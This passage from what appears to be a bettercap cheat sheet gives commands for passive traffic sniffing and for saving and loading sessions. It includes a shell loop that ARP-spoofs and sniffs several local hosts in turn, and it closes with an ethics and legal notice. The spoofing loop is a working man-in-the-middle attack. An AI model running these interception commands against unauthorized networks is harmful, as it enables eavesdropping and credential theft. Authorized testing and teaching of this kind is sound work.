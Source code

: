 ### Stealthy Monitoring:
```bash
# Passive monitoring without ARP spoofing
sudo bettercap -iface eth0 -eval "set net.recon.mode passive; set net.sniff.local true; net.recon on; net.sniff on; events.stream"
```

### Session Management:
```bash
# Save current session
session.save my_session

# Load previous session
session.load my_session

# List all sessions
session.list

# Delete session
session.delete my_session
```

### Automated Attacks:
```bash
# Script multiple targets
for ip in 192.168.1.100 192.168.1.101 192.168.1.102; do
    sudo bettercap -iface eth0 -eval "set arp.spoof.targets $ip; arp.spoof on; net.sniff on; sleep 60; arp.spoof off; net.sniff off"
done
```

---

## ⚠️ Safety & Ethics

### Always Follow:
- ✅ Get explicit written permission
- ✅ Test only on owned networks
- ✅ Document all activities
- ✅ Clean up after testing
- ✅ Respect privacy and laws

### Never Do:
- ❌ Attack unauthorized networks
- ❌ Disrupt production systems
- ❌ Violate privacy laws
- ❌ Cause intentional damage
- ❌ Use for malicious purposes

### Legal Notice:
> **516 Ethics Code**: "With great power comes great responsibility. Bettercap is a tool for protection and education, not for harm. Always obtain proper authorization and use your skills ethically."

---
